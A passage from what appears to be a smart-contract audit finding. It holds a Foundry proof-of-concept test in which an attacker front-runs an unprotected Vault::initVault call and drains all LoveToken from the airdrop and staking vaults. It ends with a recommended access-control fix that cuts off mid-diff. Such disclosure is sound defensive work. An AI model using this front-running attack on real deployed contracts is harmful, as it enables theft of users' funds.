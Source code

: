 ```cpp
    Staking staking_contract = new Staking(
        ILoveToken(address(love_token)),
        ISoulmate(address(soulmate_contract)),
        IVault(address(staking_vault))
    );

    Airdrop airdrop_contract = new Airdrop(
        ILoveToken(address(love_token)),
        ISoulmate(address(soulmate_contract)),
        IVault(address(airdrop_vault))
    );
    vm.stopPrank();

    // -----------------------------------------------------------
    // ---------------- Attacker's Intervention ------------------
    // -----------------------------------------------------------
    // But before the `deployer` can call the initVault, malicious actor called it
    address attacker = makeAddr("attacker");
    vm.startPrank(attacker);

    airdrop_vault.initVault(
        ILoveToken(address(love_token)),
        attacker
    );
    staking_vault.initVault(
        ILoveToken(address(love_token)),
        attacker
    );

    uint256 minted_amount = 500_000_000 * 1e18;

    // // now the attacker address has all the approvals of LoveToken minted
    love_token.transferFrom(address(airdrop_vault), attacker, minted_amount);
    love_token.transferFrom(address(staking_vault), attacker, minted_amount);

    vm.stopPrank();

    // attacker snatched all the LoveToken
    assertEq(love_token.balanceOf(attacker), minted_amount * 2);
}
```

## Tools Used
Manual Review, Unit Test in Foundry

## Recommendations
Add the access control to allow the protocol authority to call `Vault::initVault`
```diff
contract Vault {
    /*//////////////////////////////////////////////////////////////
                                ERRORS
    //////////////////////////////////////////////////////////////*/
    error Vault__AlreadyInitialized();
+   error Vault__NotAuthorized();

    /*//////////////////////////////////////////////////////////////
                            STATE VARIABLES
    //////////////////////////////////////////////////////////////*/
    bool public vaultInitialize;
+   address public admin;

    /*//////////////////////////////////////////////////////////////
```